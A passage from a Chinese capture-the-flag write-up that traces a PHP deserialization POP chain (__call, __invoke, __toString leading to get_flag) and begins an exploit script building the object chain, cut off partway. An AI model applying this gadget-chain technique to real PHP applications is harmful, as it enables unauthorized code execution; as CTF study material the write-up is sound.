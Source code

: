 

```
这里就到了Call类的test1()函数了,继续观察,test1()要将Call类的$mod1赋值为test2(),纵观全篇代码,没有找到test2()这个函数,但是却观察到了funct类中有__call,那么如果我的$mod=new funct()的话我就可以去调用funct类中的__call方法
```



```
这里我们已经跳到了__call函数了,将funct类中$mod1的值赋值给$s1，再将$s1以函数形式输出,这让我想到了__invoke魔术函数,找一找有没有,看到__invoke函数,我控制变量$s1=new func(),就可以调用func类中的__invoke函数了
```



```
从__invoke函数继续起跳,$this->mod2 = "字符串拼接".$this->mod1;很明显可以想到如果控制mod1为对象就可以调用__toString函数,再看__toString存在于string1类中
```



```
从__toString函数代码来看,只要srt1是实例化对象Getflag就可以调用里面的函数get_flag了
```



 

到这里就分析差不多了贴一个exp

参考链接：https://blog.csdn.net/weixin_45785288/article/details/109877324

 

原文的那个exp我感觉有点繁琐还是贴我自己写的吧

 

```
 <?php

class start_gg{

  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new Call();

  }

  

}

class Call{

  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new funct();

  }

}

class funct{

```